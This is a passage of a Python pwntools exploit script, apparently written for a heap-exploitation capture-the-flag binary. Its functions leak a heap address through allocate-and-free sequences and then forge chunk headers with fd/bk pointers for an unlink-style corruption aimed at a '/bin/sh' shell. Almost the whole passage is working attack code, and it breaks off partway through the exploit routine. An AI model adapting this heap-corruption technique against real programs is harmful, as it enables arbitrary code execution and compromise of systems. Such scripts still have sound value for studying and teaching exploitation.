 ```
    return libc_addr

def leak_heap():
    newheap("0")
    addghost(1,'1'*8+'2'*8)
    delghost()
    newheap("1")
    newheap("2")
    delheap(2)
    newheap("2")
    delheap(1)
    newheap("1")
    delheap(0)
    addghost(1,'1'*9)
    #delheap(0)
    seeghost(1)
    ret = p.recvuntil('$')
    addr = ret.split('11111111')[1][:-1].ljust(8,'x00')
    heap_addr = (u64(addr)-0x31)
    delghost()
    delheap(1)
    delheap(2)
    return heap_addr

def exploit(heap_addr):
    write_addr = heap_addr + 0x70
    aim_addr = heap_addr + 0xb0
    fd = write_addr - 0x18
    bk = write_addr - 0x10

    # malloc for 4
    newheap("0")
    addghost(1,'1')
    newheap("1")
    newheap("2")
    # unsortedbin(0x1c0) heap_2
    delghost()
    delheap(0)
    delheap(2)
    newheap("0")
    newheap("2")
    delheap(1)

    # heap_0 unsortedbin(0x100) nobody(0x10) heap_2
    delheap(0)
    newheap("0"*0xa0 + p64(0xb0))
    newheap("1")
    delheap(1)
    delheap(0)
    # heap_0=&gt;fake_chunk
    addghost(1,"/bin/shx00")
    payload = p64(aim_addr) + p64(aim_addr)
    payload += "0"*0x30 + p64(0) + p64(0x111) + p64(fd) + p64(bk)
    newheap(payload)
    newheap("1")
    delheap(2)
    # now we have unsorted bin in heap_0
    # ghost(0x60) heap_0(0xb0)(unsorted bin here) smallbins heap_1
    newheap(2)
    delheap(1)
    newheap("0")
    delheap(0)

```